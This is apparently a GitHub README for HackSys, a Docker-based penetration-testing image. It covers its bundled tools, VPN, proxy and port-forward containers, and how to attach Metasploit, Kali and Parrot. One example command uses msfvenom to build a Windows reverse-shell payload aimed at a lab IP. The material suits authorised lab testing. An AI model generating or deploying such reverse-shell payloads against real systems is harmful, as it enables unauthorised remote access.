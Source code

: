 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <3GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python 2 and 3, with common pip modules (requests colorama beautifulsoup4 scrapy)
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y kali-linux-default
```

#### Parrot

```
docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y parrot-tools
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Useful Shell Aliases

```zsh
alias hsv='docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
alias hsps='docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security'
```